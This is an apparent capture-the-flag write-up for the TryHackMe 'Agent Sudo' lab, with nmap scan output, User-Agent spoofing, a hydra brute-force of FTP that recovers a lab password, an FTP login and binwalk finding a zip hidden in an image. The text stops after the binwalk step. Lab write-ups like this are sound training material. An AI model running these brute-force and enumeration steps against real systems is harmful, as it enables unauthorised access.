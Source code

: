 ### Agent-sudo

export IP - 10.10.25.133

#### Author's Note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.


#### Enumerate

Enumerate the machine and get all the important information

How many open ports?
- 3

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.25.133
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-18 10:28 EDT
Nmap scan report for 10.10.25.133
Host is up (0.71s latency).
Not shown: 990 closed tcp ports (conn-refused)
PORT      STATE    SERVICE  VERSION
21/tcp    open     ftp      vsftpd 3.0.3
22/tcp    open     ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp    open     http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
212/tcp   filtered anet
544/tcp   filtered kshell
2013/tcp  filtered raid-am
4004/tcp  filtered pxc-roid
8649/tcp  filtered unknown
15000/tcp filtered hydap
41511/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 212.52 seconds
                                                              
```

Looking at the webpage we are greeted with a message:

![[Pasted image 20220818203145.png]]

From there we can use burp to check what is happening:

![[Pasted image 20220818203258.png]]

Upon checking, we can see the `User-Agent` that Agent R is referring. We can change this to C, like so:

![[Pasted image 20220818203403.png]]

After that we are greeted by a redirection page:

![[Pasted image 20220818203431.png]]

![[Pasted image 20220818203442.png]]

![[Pasted image 20220818203458.png]]

Using these information, we can now use hydra to crack ftp password (remember nmap, port 22 and port 80?) since Agent R said password is weak:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.170.97 ftp -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-18 20:24:14
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.170.97:21/
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 14344351 to do in 4980:41h, 4 active
[STATUS] 48.00 tries/min, 144 tries in 00:03h, 14344255 to do in 4980:39h, 4 active
[21][ftp] host: 10.10.170.97   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-18 20:29:35
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ 


```

#### Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

FTP Password: crystal

Use the username and password acquired from earlier 

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ ftp 10.10.170.97
Connected to 10.10.170.97.
220 (vsFTPd 3.0.3)
Name (10.10.170.97:kali): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||62242|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||10689|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |**************************************************************************|   217        1.39 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (0.29 KiB/s)
ftp> 

```


![[Pasted image 20220818203845.png]]

Using binwalk, i checked for any zip files inside the pictures:

```

┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]
└─$ binwalk cute-alien.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01

                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Agent-sudo]


```








